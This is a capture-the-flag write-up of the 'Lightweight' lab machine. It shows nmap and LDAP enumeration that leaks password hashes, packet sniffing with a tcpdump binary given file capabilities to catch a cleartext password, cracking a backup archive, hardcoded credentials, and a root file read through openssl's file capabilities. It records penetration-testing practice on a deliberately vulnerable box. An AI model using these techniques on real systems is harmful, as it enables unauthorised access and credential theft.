



---
search:
  exclude: true
---
# Lightweight Writeup

## Introduction :

Lightweight is a Medium linux box released back in December 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~]
      → sudo nmap -vvv -sTU -p- 10.10.10.119 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      [sudo] password for nihilist:
      Discovered open port 80/tcp on 10.10.10.119
      Discovered open port 22/tcp on 10.10.10.119
      Discovered open port 389/tcp on 10.10.10.119
    
      [2020-03-30] [ 10.10.14.42/23 ] [~]
      → nmap -sCV -p80,22,389 10.10.10.119
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 15:09 BST
      Nmap scan report for 10.10.10.119
      Host is up (0.040s latency).
    
      PORT    STATE SERVICE VERSION
      22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
      | ssh-hostkey:
      |   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
      |   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
      |_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (ED25519)
      80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
      |_http-title: Lightweight slider evaluation page - slendr
      389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
      | ssl-cert: Subject: commonName=lightweight.htb
      | Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
      | Not valid before: 2018-06-09T13:32:51
      |_Not valid after:  2019-06-09T13:32:51
      |_ssl-date: TLS randomness does not represent time
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 14.71 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running the http server on the domain name "lightweight.htb" so let's add it to our /etc/hosts file:

Here we see that the website claims to be protected against "bruteforging" so let's just move on to the ldap port our nmap scan picked up, enumerating it with ldapsearch: 
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → ldapsearch -x -h lightweight.htb -b "dc=lightweight,dc=htb"
      # extended LDIF
      #
      # LDAPv3
      # base  with scope subtree
      # filter: (objectclass=*)
      # requesting: ALL
      #
    
      # lightweight.htb
      dn: dc=lightweight,dc=htb
      objectClass: top
      objectClass: dcObject
      objectClass: organization
      o: lightweight htb
      dc: lightweight
    
      # Manager, lightweight.htb
      dn: cn=Manager,dc=lightweight,dc=htb
      objectClass: organizationalRole
      cn: Manager
      description: Directory Manager
    
      # People, lightweight.htb
      dn: ou=People,dc=lightweight,dc=htb
      objectClass: organizationalUnit
      ou: People
    
      # Group, lightweight.htb
      dn: ou=Group,dc=lightweight,dc=htb
      objectClass: organizationalUnit
      ou: Group
    
      # ldapuser1, People, lightweight.htb
      dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
      uid: ldapuser1
      cn: ldapuser1
      sn: ldapuser1
      mail: ldapuser1@lightweight.htb
      objectClass: person
      objectClass: organizationalPerson
      objectClass: inetOrgPerson
      objectClass: posixAccount
      objectClass: top
      objectClass: shadowAccount
      userPassword:: e2NyeXB0fSQ2JDNxeDBTRDl4JFE5eTFseVFhRktweHFrR3FLQWpMT1dkMzNOd2R
       oai5sNE16Vjd2VG5ma0UvZy9aLzdONVpiZEVRV2Z1cDJsU2RBU0ltSHRRRmg2ek1vNDFaQS4vNDQv
      shadowLastChange: 17691
      shadowMin: 0
      shadowMax: 99999
      shadowWarning: 7
      loginShell: /bin/bash
      uidNumber: 1000
      gidNumber: 1000
      homeDirectory: /home/ldapuser1
    
      # ldapuser2, People, lightweight.htb
      dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
      uid: ldapuser2
      cn: ldapuser2
      sn: ldapuser2
      mail: ldapuser2@lightweight.htb
      objectClass: person
      objectClass: organizationalPerson
      objectClass: inetOrgPerson
      objectClass: posixAccount
      objectClass: top
      objectClass: shadowAccount
      userPassword:: e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdms
       zYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x
      shadowLastChange: 17691
      shadowMin: 0
      shadowMax: 99999
      shadowWarning: 7
      loginShell: /bin/bash
      uidNumber: 1001
      gidNumber: 1001
      homeDirectory: /home/ldapuser2
    
      # ldapuser1, Group, lightweight.htb
      dn: cn=ldapuser1,ou=Group,dc=lightweight,dc=htb
      objectClass: posixGroup
      objectClass: top
      cn: ldapuser1
      userPassword:: e2NyeXB0fXg=
      gidNumber: 1000
    
      # ldapuser2, Group, lightweight.htb
      dn: cn=ldapuser2,ou=Group,dc=lightweight,dc=htb
      objectClass: posixGroup
      objectClass: top
      cn: ldapuser2
      userPassword:: e2NyeXB0fXg=
      gidNumber: 1001
    
      # search result
      search: 2
      result: 0 Success
    
      # numResponses: 9
      # numEntries: 8
    

Looking at the results, we have 2 users : ldapuser1 and ldapuser2, Then we have userPassword which is a base64 string, so let's decode it, but before that we can also enumerate LDAP using nmap's built-in scripts: 
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → nmap --script=ldap-search lightweight.htb
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 15:20 BST
      Nmap scan report for lightweight.htb (10.10.10.119)
      Host is up (0.42s latency).
      Not shown: 997 filtered ports
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      389/tcp open  ldap
      | ldap-search:
      |   Context: dc=lightweight,dc=htb
      |     dn: dc=lightweight,dc=htb
      |         objectClass: top
      |         objectClass: dcObject
      |         objectClass: organization
      |         o: lightweight htb
      |         dc: lightweight
      |     dn: cn=Manager,dc=lightweight,dc=htb
      |         objectClass: organizationalRole
      |         cn: Manager
      |         description: Directory Manager
      |     dn: ou=People,dc=lightweight,dc=htb
      |         objectClass: organizationalUnit
      |         ou: People
      |     dn: ou=Group,dc=lightweight,dc=htb
      |         objectClass: organizationalUnit
      |         ou: Group
      |     dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
      |         uid: ldapuser1
      |         cn: ldapuser1
      |         sn: ldapuser1
      |         mail: ldapuser1@lightweight.htb
      |         objectClass: person
      |         objectClass: organizationalPerson
      |         objectClass: inetOrgPerson
      |         objectClass: posixAccount
      |         objectClass: top
      |         objectClass: shadowAccount
      |         userPassword: {crypt}$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/
      |         shadowLastChange: 17691
      |         shadowMin: 0
      |         shadowMax: 99999
      |         shadowWarning: 7
      |         loginShell: /bin/bash
      |         uidNumber: 1000
      |         gidNumber: 1000
      |         homeDirectory: /home/ldapuser1
      |     dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
      |         uid: ldapuser2
      |         cn: ldapuser2
      |         sn: ldapuser2
      |         mail: ldapuser2@lightweight.htb
      |         objectClass: person
      |         objectClass: organizationalPerson
      |         objectClass: inetOrgPerson
      |         objectClass: posixAccount
      |         objectClass: top
      |         objectClass: shadowAccount
      |         userPassword: {crypt}$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1
      |         shadowLastChange: 17691
      |         shadowMin: 0
      |         shadowMax: 99999
      |         shadowWarning: 7
      |         loginShell: /bin/bash
      |         uidNumber: 1001
      |         gidNumber: 1001
      |         homeDirectory: /home/ldapuser2
      |     dn: cn=ldapuser1,ou=Group,dc=lightweight,dc=htb
      |         objectClass: posixGroup
      |         objectClass: top
      |         cn: ldapuser1
      |         userPassword: {crypt}x
      |         gidNumber: 1000
      |     dn: cn=ldapuser2,ou=Group,dc=lightweight,dc=htb
      |         objectClass: posixGroup
      |         objectClass: top
      |         cn: ldapuser2
      |         userPassword: {crypt}x
      |_        gidNumber: 1001
    
    

So from here we decode the b64 string we found earlier: 
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → echo 'e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdms
         zYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x' | base64 -d -i
      {crypt}$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1
    

And here we see that this is the hashed password our nmap scan found, we can crack those hashes using rockyou.txt and john for example, but the intended way was to poke around the webservice further without using a directory bruteforcer, navigating to lightweight.htb/user.php: 

Here we are hinted towards logging in via ssh into the box using the credentials 10.10.14.42:10.10.14.42
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → ssh 10.10.14.42@lightweight.htb
      The authenticity of host 'lightweight.htb (10.10.10.119)' can't be established.
      ECDSA key fingerprint is SHA256:FWyyew+o9WoPYkfIKGEbTMsexks1z8ZkSUs9O+2AMSU.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added 'lightweight.htb,10.10.10.119' (ECDSA) to the list of known hosts.
      10.10.14.42@lightweight.htb's password:
      [10.10.14.42@lightweight ~]$ id
      uid=1003(10.10.14.42) gid=1003(10.10.14.42) groups=1003(10.10.14.42) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
      [10.10.14.42@lightweight ~]$ ls /home
      10.10.14.2  10.10.14.42  ldapuser1  ldapuser2
    

Now once we are logged in, we had to check for binary capabilities using getcap which is available for us on the machine: 
    
    
      [10.10.14.42@lightweight ~]$ which getcap
      /usr/sbin/getcap
    

Poking around we find a few interesting binaries in /usr/sbin/ 
    
    
      [10.10.14.42@lightweight ~]$ getcap -r /bin
      [10.10.14.42@lightweight ~]$ getcap -r /usr/bin
      /usr/bin/ping = cap_net_admin,cap_net_raw+p
      [10.10.14.42@lightweight ~]$ getcap -r /usr/sbin
      /usr/sbin/mtr = cap_net_raw+ep
      /usr/sbin/suexec = cap_setgid,cap_setuid+ep
      /usr/sbin/arping = cap_net_raw+p
      /usr/sbin/clockdiff = cap_net_raw+p
      /usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
    

So here we have to use tcpdump to capture traffic and store it as a .pcap file. Since tcpdump has the cap_net_admin and cap_net_raw+ep capabilities, we should be able to bind to any address for transparent proxying. So let's let it run for some time and check what our .pcap file has:
    
    
      10.10.14.42@lightweight ~]$ scp 10.10.14.42@lightweight.htb:/home/10.10.14.42/nihilist.pcap ./
      The authenticity of host 'lightweight.htb (10.10.10.119)' can't be established.
    ECDSA key fingerprint is SHA256:FWyyew+o9WoPYkfIKGEbTMsexks1z8ZkSUs9O+2AMSU.
    ECDSA key fingerprint is MD5:88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67.
    Are you sure you want to continue connecting (yes/no)? yes
    

Once we retrieved our nihilist.pcap file, we inspect it using wireshark and we see a cleartext ldap request that has ldapuser2's password : **8bc8251332abe1d7f105d3e53ad39ac2** so let's login as ldapuser2 using his credentials:
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → ssh ldapuser2@lightweight.htb
      ldapuser2@lightweight.htb's password:
      Permission denied, please try again.
      ldapuser2@lightweight.htb's password:
      Permission denied, please try again.
      ldapuser2@lightweight.htb's password:
      ldapuser2@lightweight.htb: Permission denied (publickey,gssapi-keyex,gssapi-with-mic,password).
    

Nice try, we cannot ssh as ldapuser2 remotely, we need to do it locally using su: 
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → ssh 10.10.14.42@lightweight.htb
      10.10.14.42@lightweight.htb's password:
      Last login: Mon Mar 30 15:33:14 2020 from 10.10.14.42
      [10.10.14.42@lightweight ~]$ su ldapuser2
      Password:
      [ldapuser2@lightweight 10.10.14.42]$ whoami
      ldapuser2
      [ldapuser2@lightweight 10.10.14.42]$ cd ~
      [ldapuser2@lightweight ~]$ cat user.txt
      8aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

in ldapuser2's home directory there is a 7z archive named backup, we transfer it locally using a simple base64 copy paste:
    
    
      [ldapuser2@lightweight ~]$ base64 backup.7z
      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
    

` 

Once we successfully copied the password-protected 7z file we bruteforce it with rockyou and 7z.py 
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → python 7z.py backup.7z /usr/share/wordlists/rockyou.txt
    
      [...]
    
      [+] Password cracked with success : delete
    

And we have the password we need ! So we extract it and take a look at what's inside: 
    
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → 7z e backup.7z
    
      7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
      p7zip Version 16.02 (locale=en_GB.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Pentium(R) Silver N5000 CPU @ 1.10GHz (706A1),ASM,AES-NI)
    
      Scanning the drive for archives:
      1 file, 3411 bytes (4 KiB)
    
      Extracting archive: backup.7z
      --
      Path = backup.7z
      Type = 7z
      Physical Size = 3411
      Headers Size = 259
      Method = LZMA2:12k 7zAES
      Solid = +
      Blocks = 1
    
    
      Enter password (will not be echoed):
      Everything is Ok
    
      Files: 5
      Size:       10270
      Compressed: 3411
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → ls
      backup.7z  backup.7z.b64  index.php  info.php  reset.php  status.php  user.php
    
      [2020-03-30] [ 10.10.14.42/23 ] [~/_HTB/Lightweight]
      → cat status.php
    

Here the hint was to take a look into status.php which contains hardcoded credentials for ldapuser1:
    
    
      [...]
    
      <****?php**$username = 'ldapuser1';
      $password = 'f3ca9d298a553da117442deeb6fa932d';**
      $ldapconfig['host'] = 'lightweight.htb';
      $ldapconfig['port'] = '389';
      $ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
      //$ldapconfig['usersdn'] = 'cn=users';
      $ds=ldap_connect($ldapconfig['host'], $ldapconfig['port']);
      ldap_set_option($ds, LDAP_OPT_PROTOCOL_VERSION, 3);
      ldap_set_option($ds, LDAP_OPT_REFERRALS, 0);
    
      [...]
    

So we use su once again to login as ldapuser1 from ldapuser2:
    
    
      [ldapuser2@lightweight ~]$ su ldapuser1
      Password:
      [ldapuser1@lightweight ldapuser2]$ cd ~
      [ldapuser1@lightweight ~]$ ls
      capture.pcap  ldapTLS.php  openssl  tcpdump
    

And we have access to user1's homefiles ! now let's check the permissions here and the binary capabilities: 
    
    
      [ldapuser1@lightweight ~]$ ls -lash
      total 1.5M
         0 drwx------. 4 ldapuser1 ldapuser1  181 Jun 15  2018 .
         0 drwxr-xr-x. 6 root      root        77 Mar 30 15:11 ..
         0 -rw-------. 1 ldapuser1 ldapuser1    0 Jun 21  2018 .bash_history
      4.0K -rw-r--r--. 1 ldapuser1 ldapuser1   18 Apr 11  2018 .bash_logout
      4.0K -rw-r--r--. 1 ldapuser1 ldapuser1  193 Apr 11  2018 .bash_profile
      4.0K -rw-r--r--. 1 ldapuser1 ldapuser1  246 Jun 15  2018 .bashrc
         0 drwxrwxr-x. 3 ldapuser1 ldapuser1   18 Jun 11  2018 .cache
       12K -rw-rw-r--. 1 ldapuser1 ldapuser1 9.5K Jun 15  2018 capture.pcap
         0 drwxrwxr-x. 3 ldapuser1 ldapuser1   18 Jun 11  2018 .config
      4.0K -rw-rw-r--. 1 ldapuser1 ldapuser1  646 Jun 15  2018 ldapTLS.php
      544K -rwxr-xr-x. 1 ldapuser1 ldapuser1 543K Jun 13  2018 openssl
      924K -rwxr-xr-x. 1 ldapuser1 ldapuser1 921K Jun 13  2018 tcpdump
      [ldapuser1@lightweight ~]$ getcap -r .
      ./tcpdump = cap_net_admin,cap_net_raw+ep
      ./openssl =ep
    

Here openssl is our candidate for root privesc, since it has the ep capabilities, which means that we can simply read the root flag by using the base64 encoding function in openssl:
    
    
      [ldapuser1@lightweight ~]$ ls
      capture.pcap  ldapTLS.php  openssl  tcpdump
      [ldapuser1@lightweight ~]$ ./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64
      [ldapuser1@lightweight ~]$ base64 -d root.txt.b64
